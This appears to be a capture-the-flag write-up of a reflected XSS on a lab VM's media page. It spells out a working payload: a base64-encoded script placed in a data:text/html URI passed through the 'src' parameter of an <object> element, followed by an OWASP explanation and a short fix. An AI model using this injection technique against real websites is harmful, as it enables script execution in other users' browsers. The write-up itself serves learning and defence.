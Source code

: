 # XSS
We find the only clickable image on the site -> click on it
http://[VM_IP]/?page=media&src=nsa

Here we see that the image is in <object> but not in <img> tag
```
<object data="http://[VM_IP]/images/nsa_prism.jpg"></object>
```

What is [Object](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/object)?
> The <object> HTML element represents an external resource, which can be treated as an image,
> a nested browsing context, or a resource to be handled by a plugin.

In order for our data to be processed as html, we use the following form:
```
<object data="data:text/html;base64,payload_in_base64"></object>
```

Let's encode our js code to base64
base64(<script>alert("crazy XSS attack");</script>) = "PHNjcmlwdD5hbGVydCgiY3JhenkgWFNTIGF0dGFjayIpOzwvc2NyaXB0Pg=="

So, let's try this:
```
http://[VM_IP]/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgiY3JhenkgWFNTIGF0dGFjayIpOzwvc2NyaXB0Pg==
```

![flag](./img/flag.png)


## Explanation
Attack type: [XSS](https://owasp.org/www-community/attacks/xss/): Cross Site Scripting
> Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites. 
> XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user.
> Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it.

## How to fix it
> Use the <img> tag for images and be careful with the <object>.